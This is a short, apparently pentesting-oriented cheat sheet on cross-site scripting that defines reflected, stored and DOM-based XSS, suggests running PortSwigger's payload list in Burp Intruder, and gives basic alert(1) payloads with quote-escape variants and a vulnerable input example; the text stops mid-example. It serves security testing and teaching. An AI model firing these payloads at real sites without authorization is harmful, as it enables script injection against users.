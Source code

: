 # XSS Cheat Sheet (Basic)

## Introduction

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into websites. There is 3 types of XSS Attack:

*   Reflected XSS

    Attack where the malicious script runs from another website through the web browser
*   Stored XSS

    Stored attacks are those where the injected script is permanently stored on the target servers
*   DOM-Based XSS

    A type of XSS that has payloads found in the DOM rather than within the HTML code.

## Also a regularly updated cheatsheet of XSS by PortSwigger

{% embed url="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet" fullWidth="false" %}

<mark style="background-color:red;">A tip would be to simple copy all the payloads {All tags -> All Events -> All Browsers} and run in Intruder</mark>

## Where to find

This vulnerability can appear in all features of the application. If you want to find Dom-based XSS, you can find it by reading the javascript source code.

## How to exploit

1. Basic payload

```html
<script>alert(1)</script>
<svg/onload=alert(1)>
<img src=x onerror=alert(1)>
```

2. Add ' or " to escape the payload from value of an HTML tag

```html
"><script>alert(1)</script>
'><script>alert(1)</script> 
```

* Example source code

```html
<input id="keyword" type="text" name="q" value="REFLECTED_HERE">
```

* After input the payload
